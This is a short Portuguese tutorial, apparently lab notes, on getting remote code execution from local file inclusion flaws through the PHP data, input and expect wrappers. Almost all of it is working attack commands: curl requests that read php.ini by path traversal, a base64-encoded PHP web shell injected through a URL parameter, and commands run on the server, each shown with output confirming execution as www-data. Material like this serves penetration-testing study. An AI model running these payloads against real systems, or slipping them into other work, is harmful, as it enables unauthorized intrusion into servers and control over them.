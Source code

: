 # Wrappers PHP e Exploração de Vulnerabilidades LFI

### Verificação de Configurações PHP

Antes de usar wrappers PHP, verifique se `allow_url_include` está habilitado:
```
curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/read=convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini" | base64 -d | grep allow_url_include
```

Execução Remota de Código com Wrappers
Wrapper data
Codifique um web shell em base64 e passe-o via URL:
```
echo '<?php system($_GET["cmd"]); ?>' | base64
Resultado: PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```
### Execute o comando codificado via URL:
```
curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
```
<b>Resultado:</b> uid=33(www-data) gid=33(www-data) groups=33(www-data)

### Wrapper input
Envie o web shell como dados POST e passe o comando como parâmetro GET:
```
curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
```
<b>Resultado:</b> uid=33(www-data) gid=33(www-data) groups=33(www-data)

### Wrapper expect
Verifique a disponibilidade do expect e use-o para executar comandos:
```
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect
```
<b>Resultado:</b> extension=expect

### Execução
```
curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id" | grep uid
```
<b>Resultado:</b> uid=33(www-data) gid=33(www-data) groups=33(www-data)

### Resumo
Os wrappers PHP data, input, e expect permitem a execução de código remoto via vulnerabilidades LFI, proporcionando diferentes métodos para obter controle sobre o servidor back-end. Verifique a configuração allow_url_include, pois muitos desses ataques dependem dessa configuração estar habilitada.
